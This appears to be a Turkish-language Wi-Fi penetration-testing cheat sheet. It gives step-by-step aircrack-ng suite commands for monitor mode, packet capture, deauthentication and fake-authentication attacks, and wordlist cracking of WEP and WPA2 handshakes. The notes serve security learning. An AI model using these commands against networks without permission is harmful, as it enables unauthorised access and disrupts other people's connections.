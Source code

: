 # Wi-Fi Hacking

## Temel Kavramlar

Wi-Fi ağlarının güvenliğini test etmek, çeşitli temel terimlerin anlaşılmasıyla başlar.

* **SSID:** Kablosuz ağın görünen adıdır.
* **ESSID:** Bir ağa atanan benzersiz tanımlayıcıdır.
* **BSSID:** Bir ağ cihazının (erişim noktası) **MAC adresini** temsil eder.
* **WPA2-PSK:** Parola gerektiren bir güvenlik protokolüdür.
* **WPA2-EAP:** Kullanıcı adı ve parola gerektiren, daha güvenli bir protokoldür.
* **RADIUS:** Kimlik doğrulama ve yetkilendirme hizmeti sunan bir protokoldür.
* **ENC:** Ağın kullandığı şifreleme türüdür (örn. WPA2).
* **CIPHER:** Şifreleme türünün kullandığı protokolü gösterir (örn. TKIP).
* **PWR:** Wi-Fi kartı tarafından ölçülen sinyal gücünü gösterir. Daha küçük bir değer, daha güçlü bir sinyale ve cihaza daha yakın olduğunuzu belirtir.
* **#Data:** Yakalanan veri paketlerinin sayısını gösterir.
* **Station:** Hedef ağa bağlı olan cihazların **MAC adreslerini** gösterir. Bu bilgi, saldırılarda hedef belirlemek için önemlidir.

---

## Kablosuz Ağları İzleme

Sızma testlerine başlamadan önce ağ kartını uygun moda almak ve çevredeki ağları izlemek gerekir.

* **`iwconfig`**: Sistemde bulunan tüm kablosuz ağ kartlarını listeler.
* **`airmon-ng start wlan0`**: `wlan0` adlı ağ kartını **monitör moduna** alır. Bu modda ağ kartı, ağlara bağlanamaz ancak pasif bir şekilde paketleri dinleyebilir. Monitör modundaki arayüz genellikle `wlan0mon` olarak adlandırılır.
* **`airmon-ng check kill`**: Ağ kartını kullanan diğer süreçleri sonlandırarak monitör moda geçişi kolaylaştırır.
* **`airodump-ng`**: Çevredeki kablosuz ağları ve bunlara bağlı cihazları tarar ve paket yakalar.

### `airodump-ng` Parametreleri

* `--bssid` veya `-b`: Hedef ağın BSSID'sini (MAC adresi) belirtir.
* `--channel` veya `-c`: Hedef ağın kanal numarasını belirtir.
* `--write` veya `-w`: Yakalanan paketleri bir dosyaya kaydetmek için kullanılır. Bu, parola kırma için gereklidir.
* **`WPA Handshake`**: Bir cihaz ağa bağlanırken gerçekleşen el sıkışma paketidir. Bu paketin içinde parola bilgisi bulunur ve yakalandığında parola kırma işlemi yapılabilir.

---

## Saldırı Yöntemleri ve Parola Kırma

### Deauthentication (Kimlik Doğrulamasını Kaldırma) Saldırısı

Bu saldırı, bir ağdaki cihazların bağlantısını keserek, tekrar bağlanmaları sırasında **WPA Handshake** paketini yakalamayı amaçlar.

1.  **Monitör Modu:** `airmon-ng start <arayüz>` komutuyla monitör moduna geçilir.
2.  **Ağ İzleme:** `airodump-ng <arayüz>` komutuyla çevredeki ağlar hakkında bilgi toplanır.
3.  **Hedefi Belirleme:** `airodump-ng --channel <kanal_no> --bssid <mac_adresi> <arayüz>` komutuyla sadece hedef ağ izlenir.
4.  **Saldırı:**
    * Tüm cihazların bağlantısını kesmek için: `aireplay-ng --deauth <paket_sayısı> -a <modem_mac_adresi> <arayüz>`
    * Belirli bir cihazın bağlantısını kesmek için: `aireplay-ng --deauth <paket_sayısı> -a <modem_mac_adresi> -c <cihaz_mac_adresi> <arayüz>`

### WEP ve WPA2 Parola Kırma

**WEP Parola Kırma:**
* `airodump-ng --channel <kanal> --bssid <mac> --write <dosya_adı> <arayüz>` komutuyla paketler yakalanır.
* `aircrack-ng <dosya_adı>` komutuyla yakalanan paketler kullanılarak parola kırılmaya çalışılır.
* Ağa bağlı bir cihaz yoksa, `aireplay-ng --fakeauth <paket_sayısı> -a <modem_ip_adresi> -h <mac_adresi> <arayüz>` komutuyla sahte bir yetkilendirme saldırısı yapılır.

**WPA2 Parola Kırma:**
1.  Ağ kartı monitör moduna alınır: `airmon-ng start wlan0`
2.  Çevredeki ağlar izlenir: `airodump-ng wlan0mon`
3.  Hedef ağa odaklanılır ve paketler dosyaya kaydedilir: `airodump-ng -c <kanal> --bssid <modem_mac> -w dosyaAdi wlan0mon`
4.  `Deauthentication` saldırısı yapılır ve WPA Handshake paketi yakalanır.
5.  `aircrack-ng -b <modem_bssid> -w <wordlist> <cap_dosyası>` komutuyla, bir wordlist kullanılarak parolanın **kaba kuvvet (`brute force`)** ile kırılması denenir.

---

## Önemli Notlar

* **Donanım:** Parola kırma işlemleri, işlemciden daha çok **ekran kartı (`GPU`)** gücüne ihtiyaç duyar.
* **Sanal Makine:** Sanal makine üzerinde bu işlemleri yapmak için, sanal makine programında USB ayarlarını yapılandırarak harici bir ağ kartı bağlamanız gerekir. Çoğu dizüstü bilgisayarın dahili ağ kartı monitör modunu desteklemez.